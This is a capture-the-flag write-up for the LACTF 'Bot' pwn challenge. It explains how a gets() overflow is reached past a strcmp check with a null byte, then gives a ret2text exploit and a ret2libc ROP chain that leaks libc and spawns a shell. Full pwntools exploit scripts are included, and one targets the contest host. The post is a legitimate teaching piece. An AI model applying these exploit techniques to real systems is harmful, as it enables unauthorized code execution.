 ```yaml
---
title: "Bot (pwn easy)"
date: 2023-03-05T02:53:20-08:00
summary: "Intermediate ret2libc challenge solved by writing a rop chain to get a shell"
tags: ["pwn", "pwntools", "ret2libc", "rop", "ropchain", "ret2text"]
---
```


### Simple ret2text overcomplicated to ret2libc
#### LACTF pwn Bot

This challenge should be an easy ret2text, but I heavily overcomplicated it during the event. Considering we were provided a libc, I figured I should use it, even though there are instructions included in the program that read flag.txt.
I will first explain how it should be done with a ret2text, then I will show how I did it with a ret2libc ropchain.
<!-- more -->

We get the bot executable, libc, ld, Dockerfile and the bot.c code.
{{%attachments title="Related files" /%}}

From the c code we can see that `gets` is used to take our input, so our first step should be to get rip control.
For this we need to overwrite the return pointer of main, but the first tricky part will be to do that while actually reaching the return instruction of main. This is because, as we can see in the code below, if our input doesnt match "please please please give me the flag", we will enter the else of the first if, and the program will exit without returning from main.

```c
if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
```

Fortunately, because strcmp stops comparing at null bytes, but gets doesnt stop recieving input at null bytes we can add a null  byte after our initial string, and then keep sending input to reach the return pointer of main. We would then need to send the correct amounts of bytes to control the instruction pointer. We can find the correct offset with the following code and gdb.

```py
payload = b"please please please give me the flag"
payload += b"\x00" 
payload += b"A"*4

p.sendline(payload)
```
![stack at the end of main](./images/gdb1.png "stack at the end of main")

After setting a breakpoint right before the return of main, continuing and inspecting the stack where our input is stored, we can see that our A's end at **0x7ffe176ee3aa**. Now we just need to locate the return pointer of main. Pwndbg makes this very easy for us by showing us the address of the next instruction after main (**0x7f9bd98e7d0a**), so then we just need to find that address on the stack and subtract where our A's ended.

![return pointer of main](./images/gdb2.png "return pointer of main")
![calculating offset](./images/gdb3.png "calculating offset")

Since the result was 30 and we have already sent 4 A's we change our python code to send a total of 34 A's, which should give us control of the instruction pointer. 

This is where I went wrong and started leaking addresses for a ret2libc attack. What I should have done, as mentioned at the start, was to return to inside of the if where `system("cat flag.txt")` gets called. A quick look in gdb after running `disassemble main` lets us know that returning to 0x40128e, 0x401295 or 0x40129a should all work, since theyre between the jne (jump if give_flag != 1) and the call of system.

![finding win address](./images/gdb_ret2text.png "finding win address")

Using this this our full exploit becomes the following python code, and we get a flag (remember to create a flag.txt locally to test). If you want to see the ret2libc approach, keep scrolling.

```py
from pwn import *

p = process("./bot")

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(0x40128e)

p.recvline()
p.sendline(payload)

p.interactive()
```

![getting flag](./images/flag_ret2text.png "getting flag")
<!-- more -->

If we do want to ret2libc like I did, we first need to use our instruction pointer control to leak a libc address,find the base of libc and use that to call system and pop a shell. I chose to leak the address of puts as we know from the c code that it is being used in the program.

To make our debugging easier we use pwninit to link our executable with the given libraries and create a solve.py template for us. We wish to use puts to print the address of puts in libc. For that to happen we need the RIP to point at a pop rdi instruction, then the address of puts in the GOT and the address of puts in the PLT. We find a `pop rdi; ret` instruction at 0x40133b with ropper, and use the pwn library for the rest. Our payload now looks like this:

```py
pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])
```

We call main at the end, so we will be asked for input again and can send a payload with system("/bin/sh"). This first payload leaks the address of puts in libc, which, since we know the libc version, allows us to calculate and store the base address of libc. We also decide to log the address of puts in libc as a sanity check:

```py
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base
```
![libc leak](./images/leak.png "libc leak")

Great, it worked! Now the remaining part is quite simple. We do the same thing as with the first payload, but this time we find an instance of "/bin/sh" in the libc and places that on the stack as our argument. Then we call system from libc, which we can do because we already stored the libc base. Finally we finish with exit to keep the program happy.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)
```

The above payload works just as intended and we successfully pop a shell! :)<br>
This was my first writeup, I hope you enjoyed and maybe learned something.

![shell popped](./images/shell.png "shell popped")

## Full exploit:
```py
from pwn import *

exe = ELF("./bot_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process("./bot_patched")
#gdb.attach(p)

p = remote("lac.tf", 31180)

pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])

p.recvline()
p.sendline(payload)

p.recvline()
p.recvline()
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base

p.recvline()

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)

p.sendline(second_payload)

p.interactive()
```
